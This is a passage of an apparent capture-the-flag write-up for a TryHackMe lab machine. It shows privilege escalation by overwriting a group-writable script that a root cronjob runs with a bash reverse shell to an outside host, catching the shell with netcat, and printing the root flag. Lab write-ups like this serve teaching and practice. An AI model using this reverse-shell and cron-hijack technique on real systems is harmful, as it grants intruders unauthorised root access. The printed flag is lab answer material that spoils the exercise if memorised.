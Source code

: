 ```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

I checked permissions of both scripts and it is possible to modify second as `gyles` is in `admin`

```
gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17 19:42 /usr/local/sbin/dev_backup.sh

gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
```

```
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

I delete the script and recreate it with bash one liner only so it looks liks this:

```
cat  /usr/local/bin/main_backup.sh

bash -i &>/dev/tcp/10.11.30.36/4444 <&1
```

There needs to be netcat running in another terminal, so I become root after minute passes

```
udo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.11.30.36] from (UNKNOWN) [10.10.20.86] 34758
bash: cannot set terminal process group (1554): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# cat /root/root.txt	
cat /root/root.txt
THM{fhqbznavfonq}
root@TEAM:~# 
```








